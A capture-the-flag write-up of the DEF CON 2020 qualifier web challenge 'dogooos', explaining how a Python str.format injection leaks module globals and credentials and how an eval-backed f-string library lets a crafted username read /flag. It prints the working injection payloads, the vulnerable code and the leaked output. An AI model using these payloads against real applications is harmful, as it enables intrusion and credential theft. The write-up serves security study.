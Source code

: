 # DEF CON CTF Qualifier 2020 – dogooos

* **Category:** web
* **Points:** 151

## Challenge

> DogOOOs is a new website where members can rate pictures of dogs. We think there might still be a few bugs, can you check it out? In this challenge, the flag is located in the root directory of the server at /flag.
> 
> http://dogooos.challenges.ooo:37453
> 
> dogooos.challenges.ooo 37453
> 
> Files:
> 
> [dogooo_comments.py](dogooo_comments.py) a881e06d1d70809ffdc9149a5be5b5de6796542f2ed2225fd43d451fde2c8c78
> 
> [loaddata.py](loaddata.py) 0b57622ec86e02c0d8726538161dffb1e13ba1a18b7538354c12f762e4947c23

[Official solution here.](https://github.com/o-o-overflow/dc2020q-dogooos-public)

## Solution

The website allows you to upload and comment pictures of dogs.

There is an interesting endpoint at `/dogooo/runcmd` that contains a remote shell functionality, but it can't be used due to an `HTTP 502 Bad Gateway` error caused by the presence of `seccomp` filter, which prevents `execve`.

Several functionalities can be used only by authenticated users (i.e. `@login_required` annotations). There is an endpoint that can be used to create new users (i.e. `/dogooo/user/create`), but even this functionality requires the login.

A public functionality is the `/dogooo/deets/<postid>` that can be used to insert a new comment under a picture.

The comment is inserted with a two-step procedure:
1. the comment is inserted like a preview and showed into the webpage;
2. the content of the comment is strictly validated and inserted into the database.

Analyzing the code for the first step, in the [loaddata.py](loaddata.py) file, an interesting line of code can be found into `get_comments` function.

```python
def get_comments(self):
    out = ""
    for ccnt, cmt in enumerate(self.comments):
        fmt_cmt = cmt.comment.format(rating=self.__dict__)
        form_save = f"""
            <form action="/dogooo/deets/add/{self.id}" method="POST">
                <input type=hidden id="comment" name="comment" value='{fmt_cmt}'></textarea>
                <input type=hidden id="commenter" name="commenter" value='{cmt.author}'/>
                <input type=submit value="Save" />
            </form>
        """
        if cmt.preview:
            out += f"<ul class='square'>{fmt_cmt} - {cmt.author} {form_save} </ul>\n"
        else:
            out += f"<ul class='square'>{fmt_cmt} - {cmt.author}</ul>\n"

    return out
```

The interesting line is the following.

```
fmt_cmt = cmt.comment.format(rating=self.__dict__)
```

It seems that if you use a format string like `{rating}` into the comment text, then the content of `self.__dict__` can be printed.

Trying it, the following content will be printed into the preview webpage.

```html
<ul class='square'>{'id': 3, 'rating': 13, '_message': "This is Griffey. His St. Patrick's Day bow tie didn't arrive until this morning. Politely requests that everyone celebrate again. 13/10", 'pic_loc': 'images/img_3.jpg', 'author': 'demidog', 'comments': [<app.loaddata.Comment object at 0x7fc4eaadf160>, <app.loaddata.Comment object at 0x7fc4eaadf1f0>, <app.loaddata.Comment object at 0x7fc4eaadf1c0>, <app.loaddata.Comment object at 0x7fc4eaadf280>, <app.loaddata.Comment object at 0x7fc4eaadf3d0>, <app.loaddata.Comment object at 0x7fc4eaadf430>, <app.loaddata.Comment object at 0x7fc4eaadf490>, <app.loaddata.Comment object at 0x7fc4eaadf4f0>, <app.loaddata.Comment object at 0x7fc4eaadf550>, <app.loaddata.Comment object at 0x7fc4eaadf5b0>, <app.loaddata.Comment object at 0x7fc4eaadf610>, <app.loaddata.Comment object at 0x7fc4eaadf670>, <app.loaddata.Comment object at 0x7fc4eaadf6d0>, <app.loaddata.Comment object at 0x7fc4eaadf730>, <app.loaddata.Comment object at 0x7fc4eaadf790>, <app.loaddata.Comment object at 0x7fc4eaadf7f0>, <app.loaddata.Comment object at 0x7fc4eaadf850>, <app.loaddata.Comment object at 0x7fc4eaadf8b0>, <app.loaddata.Comment object at 0x7fc4eaadf910>, <app.loaddata.Comment object at 0x7fc4eaadf970>, <app.loaddata.Comment object at 0x7fc4eaadf9d0>, <app.loaddata.Comment object at 0x7fc4eaadfa30>, <app.loaddata.Comment object at 0x7fc4eaadfa90>, <app.loaddata.Comment object at 0x7fc4eaadfaf0>, <app.loaddata.Comment object at 0x7fc4eaadfb50>, <app.loaddata.Comment object at 0x7fc4eaadfbb0>, <app.loaddata.Comment object at 0x7fc4eaadfc10>, <app.loaddata.Comment object at 0x7fc4eaadfc70>, <app.loaddata.Comment object at 0x7fc4eaadfcd0>, <app.loaddata.Comment object at 0x7fc4eaadfd30>, <app.loaddata.Comment object at 0x7fc4eaadfd90>, <app.loaddata.Comment object at 0x7fc4eaadfdf0>, <app.loaddata.Comment object at 0x7fc4eaadfe50>, <app.loaddata.Comment object at 0x7fc4eaadfeb0>, <app.loaddata.Comment object at 0x7fc4eaadff10>, <app.loaddata.Comment object at 0x7fc4eaadff70>, <app.loaddata.Comment object at 0x7fc4eaadffd0>, <app.loaddata.Comment object at 0x7fc4eaae6070>, <app.loaddata.Comment object at 0x7fc4eaae60d0>, <app.loaddata.Comment object at 0x7fc4eaae6130>, <app.loaddata.Comment object at 0x7fc4eaae6190>, <app.loaddata.Comment object at 0x7fc4eaae61f0>, <app.loaddata.Comment object at 0x7fc4eaae6250>, <app.loaddata.Comment object at 0x7fc4eaae62b0>, <app.loaddata.Comment object at 0x7fc4eaae6310>, <app.loaddata.Comment object at 0x7fc4eaae6370>, <app.loaddata.Comment object at 0x7fc4eaae63d0>, <app.loaddata.Comment object at 0x7fc4eaae6430>, <app.loaddata.Comment object at 0x7fc4eaae6490>, <app.loaddata.Comment object at 0x7fc4eaae64f0>, <app.loaddata.Comment object at 0x7fc4eaae6550>, <app.loaddata.Comment object at 0x7fc4eaae65b0>, <app.loaddata.Comment object at 0x7fc4eaae6610>, <app.loaddata.Comment object at 0x7fc4eaae6670>, <app.loaddata.Comment object at 0x7fc4eaae66d0>, <app.loaddata.Comment object at 0x7fc4eaae6730>, <app.loaddata.Comment object at 0x7fc4eaae6790>, <app.loaddata.Comment object at 0x7fc4eaae67f0>, <app.loaddata.Comment object at 0x7fc4eaae6850>, <app.loaddata.Comment object at 0x7fc4eaae68b0>, <app.loaddata.Comment object at 0x7fc4eaae6910>, <app.loaddata.Comment object at 0x7fc4eaae6970>, <app.loaddata.Comment object at 0x7fc4eaae69d0>, <app.loaddata.Comment object at 0x7fc4eaae6a30>, <app.loaddata.Comment object at 0x7fc4eaae6a90>, <app.loaddata.Comment object at 0x7fc4eaae6af0>, <app.loaddata.Comment object at 0x7fc4eaae6b50>, <app.loaddata.Comment object at 0x7fc4eaae6bb0>, <app.loaddata.Comment object at 0x7fc4eaae6c10>, <app.loaddata.Comment object at 0x7fc4eaae6c70>, <app.loaddata.Comment object at 0x7fc4eaae6cd0>, <app.loaddata.Comment object at 0x7fc4eaae6d30>, <app.loaddata.Comment object at 0x7fc4eaae6d90>, <app.loaddata.Comment object at 0x7fc4eaae6df0>, <app.loaddata.Comment object at 0x7fc4eab30af0>]} - author
```

As you can read [here](https://lucumr.pocoo.org/2016/12/29/careful-with-str-format/), this code can be abused to read secret data.

The following code can be used to access *globals* objects.

```python
{rating[comments][0].__class__.__init__.__globals__}
```

It will give the following output.

```html
<ul class='square'>{'__name__': 'app.loaddata', '__doc__': None, '__package__': 'app', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fc4ed1f4670>, '__spec__': ModuleSpec(name='app.loaddata', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7fc4ed1f4670>, origin='./app/loaddata.py'), '__file__': './app/loaddata.py', '__cached__': './app/__pycache__/loaddata.cpython-38.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'locals': <built-in function locals>, 'max': <built-in function max>, 'min': <built-in function min>, 'next': <built-in function next>, 'oct': <built-in function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'repr': <built-in function repr>, 'round': <built-in function round>, 'setattr': <built-in function setattr>, 'sorted': <built-in function sorted>, 'sum': <built-in function sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': <class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': <class 'float'>, 'frozenset': <class 'frozenset'>, 'property': <class 'property'>, 'int': <class 'int'>, 'list': <class 'list'>, 'map': <class 'map'>, 'object': <class 'object'>, 'range': <class 'range'>, 'reversed': <class 'reversed'>, 'set': <class 'set'>, 'slice': <class 'slice'>, 'staticmethod': <class 'staticmethod'>, 'str': <class 'str'>, 'super': <class 'super'>, 'tuple': <class 'tuple'>, 'type': <class 'type'>, 'zip': <class 'zip'>, '__debug__': True, 'BaseException': <class 'BaseException'>, 'Exception': <class 'Exception'>, 'TypeError': <class 'TypeError'>, 'StopAsyncIteration': <class 'StopAsyncIteration'>, 'StopIteration': <class 'StopIteration'>, 'GeneratorExit': <class 'GeneratorExit'>, 'SystemExit': <class 'SystemExit'>, 'KeyboardInterrupt': <class 'KeyboardInterrupt'>, 'ImportError': <class 'ImportError'>, 'ModuleNotFoundError': <class 'ModuleNotFoundError'>, 'OSError': <class 'OSError'>, 'EnvironmentError': <class 'OSError'>, 'IOError': <class 'OSError'>, 'EOFError': <class 'EOFError'>, 'RuntimeError': <class 'RuntimeError'>, 'RecursionError': <class 'RecursionError'>, 'NotImplementedError': <class 'NotImplementedError'>, 'NameError': <class 'NameError'>, 'UnboundLocalError': <class 'UnboundLocalError'>, 'AttributeError': <class 'AttributeError'>, 'SyntaxError': <class 'SyntaxError'>, 'IndentationError': <class 'IndentationError'>, 'TabError': <class 'TabError'>, 'LookupError': <class 'LookupError'>, 'IndexError': <class 'IndexError'>, 'KeyError': <class 'KeyError'>, 'ValueError': <class 'ValueError'>, 'UnicodeError': <class 'UnicodeError'>, 'UnicodeEncodeError': <class 'UnicodeEncodeError'>, 'UnicodeDecodeError': <class 'UnicodeDecodeError'>, 'UnicodeTranslateError': <class 'UnicodeTranslateError'>, 'AssertionError': <class 'AssertionError'>, 'ArithmeticError': <class 'ArithmeticError'>, 'FloatingPointError': <class 'FloatingPointError'>, 'OverflowError': <class 'OverflowError'>, 'ZeroDivisionError': <class 'ZeroDivisionError'>, 'SystemError': <class 'SystemError'>, 'ReferenceError': <class 'ReferenceError'>, 'MemoryError': <class 'MemoryError'>, 'BufferError': <class 'BufferError'>, 'Warning': <class 'Warning'>, 'UserWarning': <class 'UserWarning'>, 'DeprecationWarning': <class 'DeprecationWarning'>, 'PendingDeprecationWarning': <class 'PendingDeprecationWarning'>, 'SyntaxWarning': <class 'SyntaxWarning'>, 'RuntimeWarning': <class 'RuntimeWarning'>, 'FutureWarning': <class 'FutureWarning'>, 'ImportWarning': <class 'ImportWarning'>, 'UnicodeWarning': <class 'UnicodeWarning'>, 'BytesWarning': <class 'BytesWarning'>, 'ResourceWarning': <class 'ResourceWarning'>, 'ConnectionError': <class 'ConnectionError'>, 'BlockingIOError': <class 'BlockingIOError'>, 'BrokenPipeError': <class 'BrokenPipeError'>, 'ChildProcessError': <class 'ChildProcessError'>, 'ConnectionAbortedError': <class 'ConnectionAbortedError'>, 'ConnectionRefusedError': <class 'ConnectionRefusedError'>, 'ConnectionResetError': <class 'ConnectionResetError'>, 'FileExistsError': <class 'FileExistsError'>, 'FileNotFoundError': <class 'FileNotFoundError'>, 'IsADirectoryError': <class 'IsADirectoryError'>, 'NotADirectoryError': <class 'NotADirectoryError'>, 'InterruptedError': <class 'InterruptedError'>, 'PermissionError': <class 'PermissionError'>, 'ProcessLookupError': <class 'ProcessLookupError'>, 'TimeoutError': <class 'TimeoutError'>, 'open': <built-in function open>, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': Copyright (c) 2001-2020 Python Software Foundation.
All Rights Reserved.

Copyright (c) 2000 BeOpen.com.
All Rights Reserved.

Copyright (c) 1995-2001 Corporation for National Research Initiatives.
All Rights Reserved.

Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam.
All Rights Reserved., 'credits':     Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands
    for supporting Python development.  See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}, 'connect': <function Connect at 0x7fc4ed0c4700>, 'f': <class 'fstring.fstring.fstring'>, 'clean': <function clean at 0x7fc4ed09f310>, 'json': <module 'json' from '/usr/lib/python3.8/json/__init__.py'>, 'post_results': ((3, "This is Griffey. His St. Patrick's Day bow tie didn't arrive until this morning. Politely requests that everyone celebrate again. 13/10", 2, 13, 'images/img_3.jpg', 2, 'demidog', 'princesses_password'),), 'jf': <_io.TextIOWrapper name='/dbcreds.json' mode='r' encoding='UTF-8'>, 'jdata': {'db_user': 'dogooo', 'db_pass': 'dogZgoneWild'}, 'db_user': 'dogooo', 'db_pass': 'dogZgoneWild', 'Comment': <class 'app.loaddata.Comment'>, 'Post': <class 'app.loaddata.Post'>, 'get_posting': <function get_posting at 0x7fc4ed1fe940>, 'UserMixin': <class 'flask_login.mixins.UserMixin'>, 'save_comment': <function save_comment at 0x7fc4eb2819d0>, 'get_all_posts': <function get_all_posts at 0x7fc4eb281af0>, 'create_post_entry': <function create_post_entry at 0x7fc4eab0c0d0>, 'User': <class 'app.loaddata.User'>, 'user_create_entry': <function user_create_entry at 0x7fc4eab1c040>, 'get_login': <function get_login at 0x7fc4eab1c280>, 'get_user': <function get_user at 0x7fc4eab1c310>} - author
```

From this data you can spot user credentials:
* username: `demidog`;
* password: `princesses_password`;

So now you can authenticate into the system and **you can create new users**.

During the authentication, an interesting behavior can be spot. The `login` method ([dogooo_comments.py](dogooo_comments.py)) uses the *f-Strings* functionality of Python 3, [which is a very powerful formatting syntax](https://realpython.com/python-f-strings/) and can be used to call methods.

```python
@app.route("/dogooo/login", methods=["GET", "POST"])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        user = get_login(username, password)
        if user is not None:
            login_user(user)
            return redirect(request.host_url[:-1] + f"/dogooo/show?message=Welcom+back+{user.get_user_info()}")

        else:
            return redirect(request.host_url[:-1] + f"/dogooo/show?message=Login+FAILED")
    else:
        return abort(401)
```

The interesting line is the following.

```python
return redirect(request.host_url[:-1] + f"/dogooo/show?message=Welcom+back+{user.get_user_info()}")
```

The `get_user_info` method of the `User` class into [loaddata.py](loaddata.py) uses the `f()` method, instead of the `f""` one, on the `username` field; this method is the legacy one of *f-Strings* Python 2 implementation. The library implemented the *f-Strings* functionality by using an `eval`.

```python
from fstring import fstring as f
...   ...   ...
def get_user_info(self):
    return f(self.username)
```

So you can create a new user with a malicious username that could trigger a RCE during the authentication. The malicious username is: `{open('/flag').read()}`.

Authenticating with this user, you will be redirect to the following address.

```
http://dogooos.challenges.ooo:37453/dogooo/show?message=Welcom+back+OOO%7Bdid%20you%20see%20my%20dog%7D
```

Which contains the flag in the URL.

![flag.png](flag.png)

So the flag is the following.

```
OOO{did you see my dog}
```